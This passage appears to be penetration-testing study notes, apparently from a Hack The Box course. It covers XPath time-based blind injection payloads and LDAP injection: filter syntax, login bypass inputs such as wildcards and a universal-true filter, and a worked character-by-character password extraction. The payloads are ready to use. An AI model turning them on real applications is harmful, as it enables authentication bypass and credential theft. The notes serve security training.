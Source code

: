 Force the web application to iterate over the entire XML document exponentially:

```
count((//.)[count((//.))])
```

Determine whether the first letter of the "username" is "a" based on the time it takes: if it is, the query will utilize a significant processing time, otherwise, it won't.

```
invalid' or substring(/users/user[1]/username,1,1)='a' and count((//.)[count((//.))]) and '1'='1
```

### LDAP Injection

**LDAP Search Filter Syntax**

|Name|Operand|Example|Example Description|
|---|---|---|---|
|Equality|`=`|`(name=Kaylie)`|Matches all entries that contain a `name` attribute with the value `Kaylie`|
|Greater-Or-Equal|`>=`|`(uid>=10)`|Matches all entries that contain a `uid` attribute with a value greater-or-equal to `10`|
|Less-Or-Equal|`<=`|`(uid<=10)`|Matches all entries that contain a `uid` attribute with a value less-or-equal to `10`|
|Approximate Match|`~=`|`(name~=Kaylie)`|Matches all entries that contain a `name` attribute with approximately the value `Kaylie`|
|And|`(&()())`|`(&(name=Kaylie)(title=Manager))`|Matches all entries that contain a `name` attribute with the value `Kaylie` and a `title` attribute with the value `Manager`|
|Or|<code>(\|()())</code>|<code>(\|(name=Kaylie)(title=Manager))</code>|Matches all entries that contain a `name` attribute with the value `Kaylie` or a `title` attribute with the value `Manager`|
|Not|`(!())`|`(!(name=Kaylie))`|Matches all entries that contain a `name` attribute with a value different from `Kaylie`|
|True|`(&)`|`(&)`|Universal True|
|False|<code>(\|)</code>|<code>(\|)</code>|Universal False|
|Wildcard|`*`|`(name=*a*)`|Matches all entries that contain a name attribute that contains an `a`|

**Authentication Bypass**

|Description|Username|Password|Search Filter|
|---|---|---|---|
|Regular Authentication|`admin`|`admin`|`(&(uid=admin)(userPassword=admin))`|
|Wildcard Bypass|`*`|`*`|`(&(uid=*)(userPassword=*))`|
|Wildcard Bypass targeting specific user|`admin*`|`*`|`(&(uid=admin*)(userPassword=*))`|
|Universal True Bypass|<code>admin)(\|(&</code>|`invalid)`|<code>(&(uid=admin)(\|(&)(userPassword=invalid)))</code>|

**Data Exfiltration**

Brute-Force data character-by-character:

|Username|Password|Query|
|---|---|---|
|`htb-stdnt`|`*`|`(&(uid=htb-stdnt)(userPassword=*))`|
|`htb-stdnt`|`p*`|`(&(uid=htb-stdnt)(userPassword=p*))`|
|`htb-stdnt`|`p@*`|`(&(uid=htb-stdnt)(userPassword=p@*))`|
|`htb-stdnt`|`p@s*`|`(&(uid=htb-stdnt)(userPassword=p@s*))`|
|`htb-stdnt`|`p@ss*`|`(&(uid=htb-stdnt)(userPassword=p@ss*))`|
|`htb-stdnt`|`p@ssw*`|`(&(uid=htb-stdnt)(userPassword=p@ssw*))`|
|`htb-stdnt`|`p@ssw0*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0*))`|
|`htb-stdnt`|`p@ssw0r*`|`(&(uid=htb-stdnt)(userPassword=p@ssw0r*))`|